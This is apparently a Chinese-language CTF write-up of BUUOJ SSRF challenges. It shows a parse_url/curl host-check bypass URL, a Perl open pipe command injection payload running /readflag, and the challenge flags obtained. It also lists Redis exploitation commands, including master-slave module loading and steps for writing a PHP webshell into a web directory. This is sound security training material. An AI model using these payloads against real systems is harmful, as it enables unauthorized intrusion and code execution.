

# 刷一下ssrf的题目（buuoj）

## [第二章 web进阶]SSRF Training

题目给出的是php代码————ssrf_train.php

SSRF 攻击示例：

- 内网探测： 通过 SSRF，攻击者可以让服务器访问内网中的敏感资源（如内部管理系统、数据库服务等），这通常是外部攻击者无法直接访问的。

- 获取敏感信息： 攻击者通过 SSRF 访问内部的 API 或者云服务的元数据服务器，可能获取敏感的配置信息。

- 跨站请求伪造（CSRF）结合 SSRF： SSRF 还可以与 CSRF 攻击结合使用，攻击者可以利用服务器发起对外部或第三方系统的恶意请求。


SSRF 攻击的影响：

- 访问内部网络资源：攻击者可以通过服务器访问原本受限的内部网络资源，包括数据库、管理界面等。
    
- 数据泄露：服务器可能被用于访问内部系统或云基础设施的敏感信息，比如配置信息、数据库内容等。
    
- 执行恶意操作：通过特定的请求，攻击者可以操控服务器发送请求，从而执行某些恶意操作（例如，修改数据、执行远程代码等）。

SSRF 的常见绕过手段：

攻击者通常会使用一些绕过方法来避免服务器的内网 IP 检查，比如：

- 使用 DNS 解析绕过：攻击者使用一个恶意的域名，它解析为内网 IP 地址，从而绕过直接的 IP 检查。

- 多次重定向：攻击者让服务器跟随 URL 重定向，从外部 URL 重定向到内网地址，绕过简单的 URL 白名单过滤。

- 伪造 IP 地址：通过伪造不同的 IP 格式（如整数形式的 IP 地址），绕过内网 IP 检查。

可以参考一下下面这篇文章↓

https://www.anquanke.com/post/id/86527

关键在于理解url_parse与curl的差异性，

url_parse:

```python
$url = "http://www.example.com/path?arg=value#anchor";
$parsed = parse_url($url);
var_dump($parsed);
```

输出：

```python
array(5) {
  ["scheme"] => string(4) "http"
  ["host"] => string(11) "www.example.com"
  ["path"] => string(5) "/path"
  ["query"] => string(8) "arg=value"
  ["fragment"] => string(6) "anchor"
}
```

可以看到url_parse()将所给的url划分成scheme,host,path,query,fragment五个部分

题目所给的php代码中其用于检测主机地址的便是host部分：

`http://cangxue@127.0.0.1:80 @www.baidu.com/flag.php`

第一个@：username:password@是url的标准格式，例子中意味着以cangxue作为认证信息访问127.0.0.1:80

第二个@：根据URL标准，在使用curl的时候，第二个@后面的www.baidu.com/flag.php实际上会被解析成请求的路径，因此其得到的host仍是127.0.0.1，www.baidu.com会直接被忽略

但在php的parse_url中，其只会识别最后的@，因此其得到的'host'其实是www.baidu.com，而前面的cangxue@127.0.0.1:80则会被作为用户认证信息。

利用这个差异化解析，我们就可以成功绕过内部ip检测，得到flag。

n1book{ug9thaevi2JoobaiLiiLah4zae6fie4r}

## [HITCON 2017]SSRFme

题目给到的代码放在./hitcon_ssrfme.php中，代码审计的细节都写在注释里了，

不得不说开头把REMOTE_ADDR打印出来真的很细心，

总之最大的漏洞应该是在shell_exec处，虽然进行了注入过滤，但它允许我们从url处GET各种各样的东西

这种时候应该先看一下根目录的东西，采用这样的payload：

http://8444dc30-1b79-4566-92f8-83df4599715e.node5.buuoj.cn/?url= /&filename=this

这样的话，服务器会根据我们当前的ip前面加盐生成一个md5哈希，然后新建一个沙箱目录，我们的this文件就会放在里面，

其读取的应该是根目录 /下的所有目录：

http://8444dc30-1b79-4566-92f8-83df4599715e.node5.buuoj.cn/sandbox/50d5f583d8a911dde39156ba3f03c3d5/this

用这个payload查看this文件，其中沙箱下的哈希目录我们只需用orange和remote_addr拼接再做一次md5就可以得到并且一直用。



可以看到有一个flag，和一个readflag，都是我们很想要的

（GET 参数后面直接接目录，在Linux中用于获取当前目录内容并以XML格式（也可能是html，不太看得懂）打印出来）

所以我们直接GET /flag肯定是不行的（实验过了确实不行）

主要的知识点：perl函数看到要打开的文件名中如果以管道符（键盘上那个竖杠|）结尾，就会中断原有打开文件操作，并且把这个文件名当作一个命令来执行，并且将命令的执行结果作为这个文件的内容写入。这个命令的执行权限是当前的登录者。如果你执行这个命令，你会看到perl程序运行的结果。

所以这把GET函数就是关键的发力点，因此我们要构造这样一个payload：

http://8444dc30-1b79-4566-92f8-83df4599715e.node5.buuoj.cn/?url=file:bash%20-c%20/readflag|&filename=file:bash%20-c%20/readflag|

把url的内容和filename设置成一样的，因为有些 Web 后端会先用 -e（exists，是否存在）判断你传的文件名是否真的存在，才继续 open 操作，因此我们要创建一个一模一样的文件。

后面正常用管道截获这个流程，写到自己想要的文件里就可以了：

http://8444dc30-1b79-4566-92f8-83df4599715e.node5.buuoj.cn/?url=file:bash%20-c%20/readflag|&filename=cangxue

访问：

http://8444dc30-1b79-4566-92f8-83df4599715e.node5.buuoj.cn/sandbox/50d5f583d8a911dde39156ba3f03c3d5/cangxue

就能得到flag：

flag{bf6b30a3-6571-4641-9f4e-a3f52440cee5}

# 紧集停止，学习一下Redis的渗透&SSRF的利用

文章链接：https://blog.csdn.net/weixin_53912233/article/details/136035252?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522b20f3779b132466f7d162ce86c1b8d23%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=b20f3779b132466f7d162ce86c1b8d23&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-136035252-null-null.142^v102^pc_search_result_base6&utm_term=redis%20ssrf&spm=1018.2226.3001.4187


工具安装地址：（kali默认带了）
`http://download.redis.io/redis-stable.tar.gz`

运行redis服务器：

1. 安装redis-server

```bash
sudo apt install redis-server
```

2. 启动Redis服务

```bash
sudo systemctl start redis-server
sudo systemctl enable redis-server #设置开机自启动
sudo systemctl status redis-server #检查Redis服务状态
```

3. 本机连接Redis

```bash
redis-cli
```

看到 127.0.0.1:6379> 提示符，就表示成功了，可以输入各种Redis命令进行练习。

Redis常用命令：

```
redis-cli -h ip -p port -a pass // 连接redis数据库，如果无密码
info // 返回关于Redis 服务器的各种信息和统计数值
info persistence // 主要查看后台有没有运行任务
flushall										    # 删除所有键
keys *											    # 查询所有键，也可用配合正则查询指定键
get 键名											  # 查询数据
del	键名											  # 删除数据
exists 键名										  # 判断键是否存在
set 键名 键值                                     # 设置键值
type 键名                                        # 查看某个键的类型

select 1        # 切换到1号数据库，一共有16个库，编号0~15

dbsize          # 获取所有键数量
flushdb         # 清空当前数据库

config set protected-mode no # 关闭安全模式

slaveof host port						 # 设置主节点
config set protected-mode no # 关闭安全模式
config set dir /tmp					 # 设置保存目录
config set dbfilename exp.so # 设置保存文件名
config get dir							 # 查看保存目录
config get dbfilename			   # 查看保存文件名
save											   # 执行一个同步保存操作，将当前 Redis 实例的所有数据快照(snapshot)以 RDB 文件的形式保存到硬盘。
slaveof no one  						 # 断开主节点	
module list 								 #redis4.x版本以上有模块功能，查询有什么模块
module load exp.so		 			 #加载exp.so文件模块
quit												 #退出

```

漏洞之————Redis未授权

`redis-cli -h xx.xx.xx.xx -p 6379` 对本地6379端口的redis服务器进行链接，如果可以直接执行info操作，说明存在未授权漏洞

如果没有权限，就会显示`Permission denied`

web目录下写webshell

```bash
info persistence //获取关于 Redis 持久性配置和状态的信息
config set dir /var/www/html  // 设置要配置的目录
config set dbfilename cike.php  //设置要配置的文件名
set shell "\n\n\n<?php phpinfo();?>\n\n\n"  //设置键名还有键的值
save //最后保存
```

